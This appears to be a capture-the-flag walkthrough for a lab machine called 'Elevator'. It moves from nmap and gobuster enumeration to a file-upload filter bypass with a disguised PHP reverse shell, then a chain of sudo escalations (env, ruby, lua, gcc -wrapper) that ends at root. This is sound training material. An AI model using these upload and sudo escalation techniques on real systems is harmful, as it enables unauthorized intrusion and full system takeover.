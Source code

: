 # Elevator
![image](https://github.com/user-attachments/assets/94e48dad-afd1-4617-9218-7f59701415d5)

## Recognition and Enumeration.

Check that the machine is running.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Once we get a ping response, we can start enumerating the machine. The ttl=64 can tell us that it is a **Linux** machine.

We launch nmap to see what ports it finds.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Performs a SYN scan.
- `-p-`: Scans all ports.
- `--open`: Shows only open ports.
- `--min-rate 5000`: Sets the minimum packet forwarding rate to 5000 per second.
- `-vvv`: Generates very verbose and detailed output.
- `-n`: Prevents reverse DNS resolution.
- `-Pn`: Skips host discovery.
- `-oG allPorts`: Saves results to a file named "allPorts".
- `172.17.0.2`: The IP address of the target host.
```
```
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 64
```
Since we have port 80 open, we are going to visit the web to see if we can find something that can help us, but there is nothing relevant, so we fuzz to find new routes.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php
```
![image](https://github.com/user-attachments/assets/bd15383a-3374-4318-b93d-c976cb398283)

Since we didn't find anything, we continue searching in directories, in this case we go to the directory **http://172.17.0.2/themes/**

![image](https://github.com/user-attachments/assets/0f497aa0-9c13-4687-a06d-44425ca59927)

## Exploitation.

We find a path **http://172.17.0.2/themes/file.html**, and we find a page to upload files. It tells us that only *jpg* files can be uploaded.

![image](https://github.com/user-attachments/assets/ce863652-ac2a-44dd-be7f-0c0b560d18ee)

To skip this check we can upload a shell in php that has a jpg extension. That is, it would be *shell.php.jpg* To do this we go to [GitHub](https://github.com/pentestmonkey/php-reverse-shell) and use its reverse shell in php.

![image](https://github.com/user-attachments/assets/83c89a3b-94f7-4f55-92be-e6435c594ea0)

![image](https://github.com/user-attachments/assets/e93f87e5-9673-431f-9025-cc0d0ec15b12)

We listen on the port we have configured, in my case 4444, and go to the route it shows us.

![image](https://github.com/user-attachments/assets/69e9ddc2-8b9c-42dc-b3c1-9b8dfd706ead)

## Privilege escalation.

Now we check the sudo permissions we have and see that we can run as **daphne** */usr/bin/evn*

![image](https://github.com/user-attachments/assets/1719d5ac-1ced-4f05-a376-08cfbeb15164)

```bash
sudo -u daphne /usr/bin/env /bin/sh
```
![image](https://github.com/user-attachments/assets/c6d6a982-e070-48df-b936-9e4bf483951d)

![image](https://github.com/user-attachments/assets/5313f360-4a38-4787-805b-fdc328e45ac9)

```bash
sudo -u vilma /usr/bin/ash
```
![image](https://github.com/user-attachments/assets/595b5be4-d24b-447c-9cc5-f51cca2e2665)

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
```
![image](https://github.com/user-attachments/assets/1dee18d8-7bc6-4699-8b61-8f53a11179be)

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/07f5fb76-616f-49c3-83f0-9be336555625)

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .
```
![image](https://github.com/user-attachments/assets/9f81a2e6-401e-4e9c-9732-cfcc1fd0bdfe)

```bash
sudo -u root /usr/bin/sudo /bin/sh
```

![image](https://github.com/user-attachments/assets/afcb909f-242b-42e7-a958-92d505d5c7b8)

We already have access as **root**.
